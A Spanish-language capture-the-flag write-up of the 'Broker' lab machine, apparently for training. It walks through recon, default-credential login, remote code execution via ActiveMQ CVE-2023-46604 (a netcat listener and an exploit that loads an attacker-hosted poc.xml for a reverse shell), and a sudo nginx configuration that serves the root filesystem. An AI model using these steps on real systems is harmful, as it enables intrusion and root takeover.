





Broker es una máquina Linux de fácil dificultad que aloja una versión de Apache ActiveMQ. La enumeración de la versión de Apache ActiveMQ muestra que es vulnerable a la ejecución remota de código sin autenticación, que se aprovecha para obtener acceso de usuario en el objetivo. La enumeración posterior a la explotación revela que el sistema tiene una configuración errónea de sudo que permite al usuario activemq ejecutar sudo /usr/sbin/nginx, que es similar a la reciente divulgación de Zimbra y se aprovecha para obtener acceso de root.

# Initial Recon

```bash
> ping -c 1 10.10.11.243   
PING 10.10.11.243 (10.10.11.243) 56(84) bytes of data.
64 bytes from 10.10.11.243: icmp_seq=1 ttl=63 time=139 ms

--- 10.10.11.243 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 139.019/139.019/139.019/0.000 ms
```

comenzamos nuestro escaneo con nmap:

```bash
> sudo nmap -sC -sV -oA broker 10.10.11.243

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.4 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:754a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Error 401 Unauthorized
| http-auth: 
| HTTP/1.1 401 Unauthorized\x0D
|_  basic realm=ActiveMQRealm
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
En nuestro resultado podemos ver 2 puertos.


| Port | Service | Product | Version |
|------|---------|---------|---------|
| 22   | ssh     | OpenSSH | 8.9p1   |
| 80   | HTTP    | nginx   | 1.18.0  |

Por ahora no intentamos nada a través de ssh ya que no tenemos credenciales válidas, Así que vamos a ver el sitio web.

## Login



En cuanto entré en la web me pidió credenciales, probé adminy por arte de magia me dejó entrar.



Tenemos un sitio web con activeMQ.

>¿Qué es activemq? Apache ActiveMQ es un broker de mensajes de código abierto escrito en Java junto con un completo cliente Java Message Service. Proporciona «Enterprise Features», que en este caso significa fomentar la comunicación desde más de un cliente o servidor.

Si vamos a la sección que dice Manage ActiveMQ broker podemos ver más información.


# Web

## CVE-2023-46604 Exploit

Hemos buscado el exploit CVE de ActiveMQ 5.15.15 y hemos encontrado un exploit interesante:

[CVE-2023-46604](https://github.com/evkl1d/CVE-2023-46604)

clonamos este exploit:

```bash
> git clone https://github.com/evkl1d/CVE-2023-46604
> cd CVE-2023-46604
```

Escuchamos en el puerto 6666:

```bash
nc -nlvp 6666
```

y editamos el poc.xml que contiene la carpeta exploit que clonamos. La línea que vas a editar necesita tu IP de la interfaz tun0 y el puerto en el que estás escuchando, para recibir la shell allí.



Creamos un servidor en python en el que el exploit tomará el poc.xml para atacar la web.



Ejecutamos el exploit de la siguiente manera:

```bash
> python3 exploit.py -i 10.10.11.243 -u 'http://10.10.14.26/poc.xml' 
```

En el parámetro -u ponemos el Servidor Python que hicimos anteriormente.

> ¿Entendiste lo que hice? Te explico Básicamente, copiamos un exploit de github, que está dedicado para esta Vulnerabilidad de activeMQ.

> en la guía de uso del exploit, nos dice que tenemos que crear un servidor python que le asignaremos cuando ejecutemos el ataque, para que cargue el fichero poc.xml en la página con nuestra IP y puerto en el que ya estamos escuchando para recibir nuestro Revshel



Privilege Escalation

Si ponemos el comando sudo -l nos muestra esto:

```bash
> sudo -l
Matching Defaults entries for activemq on broker:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User activemq may run the following commands on broker:
    (ALL : ALL) NOPASSWD: /usr/sbin/nginx
```

## Nginx Sudo - Read root flag

>sudo -l se utiliza para comprobar los privilegios que tiene un usuario en un sistema Unix o Linux a través del comando sudo.

Bien, Podemos ejecutar nginx con privilegios sudo sin una contraseña, Vamos a buscar profundamente cómo podemos hacer eso.

Después de la búsqueda, Ahora quiero crear un archivo de configuración, pero primero tenemos que ver nginx.conf de esta ruta /etc/nginx/nginx.conf.

Voy a editar este archivo desde mi máquina y subir en la caja.
```bash
user root;
worker_processes auto;
events {
       worker_connections 790;
}
http{
      server {
             listen   9000;
             location / {
                      root /;
             }
      
      }

}
```

Para establecer el archivo de configuración utilice este comando.

```bash
> sudo nginx -c /tmp/nginx1.conf
> ss -ltnp # displays TCP connections with a source port
```

Ahora podemos acceder a la bandera raíz.

```bash
curl http://localhost:9000/root/root.txt
```

Gracias por leer.